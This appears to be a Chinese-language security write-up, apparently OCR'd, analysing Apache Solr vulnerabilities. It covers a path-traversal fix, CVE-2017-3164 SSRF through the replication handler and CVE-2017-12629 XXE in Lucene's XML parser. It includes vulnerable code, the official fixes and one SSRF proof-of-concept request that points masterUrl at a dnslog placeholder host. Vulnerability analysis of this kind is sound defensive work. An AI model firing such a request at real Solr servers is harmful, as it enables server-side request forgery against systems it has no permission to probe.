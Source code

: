 漏洞修复
漏洞修复时在DirectoryFileStream构造函数中加入了对于文件名的判断，包含`..`或者是绝对路径都是抛出异常
```
protected String validateFilenameOrError(String filename){
	if(filename!=null){
		if("..".equals(subpath.toString())){throw new SolrException()}
		if(filePath.isAbsolute()){throw new SolrException()}
	}
}
```

## CVE-2017-3164
问题同样出现在索引复制功能（Replication），如同上面ReplicationHandler处理具体请求的核心代码，command为fetchindex时，会更新要下载的文件列表。最终调用的是`IndexFetcher.fetchFileList()`，创建一个HttpSolrClient发送请求，造成SSRF漏洞。
```
NamedList getLatestVersion() throws IOException {
    QueryRequest req = new QueryRequest(params);
    try (HttpSolrClient client = new HttpSolrClient.Builder(masterUrl).withHttpClient(myHttpClient).build()) {
      client.setSoTimeout(60000);
      client.setConnectionTimeout(15000);

      return client.request(req);
    } ...
  }
```
POC
```
GET /solr/db/replication?command=fetchindex&masterUrl=http://xxx.dnslog.cn/xxxx&wt=json&httpBasicAuthUser=aaa&httpBasicAuthPassword=bbb HTTP/1.1
```

## CVE-2017-12629
XML有很多解析方式，包括DOM、SAX、JDO、DOM4J等技术。其中DOM最常用的解析方式如下。如果可以引用外部实体，就会造成XXE漏洞。所以一般的防御方式是在代码中加入`factory.setExpandEntityReferences(false);`来禁用外部实体。
```
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
DocumentBuilder builder = factory.newDocumentBuilder();
File f = new File("books.xml");
Document doc = builder.parse(f);
```
lucene的核心解析器`CoreParser`解析xml时的代码简化如下，发现并没有禁用外部实体，存在XXE漏洞
```
  static Document parseXML(InputStream pXmlFile) throws ParserException {
    DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
    DocumentBuilder db = dbf.newDocumentBuilder();
    org.w3c.dom.Document doc = db.parse(pXmlFile);
    return doc;
  }
```
官方在修复此漏洞时则是在上述代码中加入`dbf.setFeature("http://javax.xml.XMLConstants/feature/secure-processing",true)`
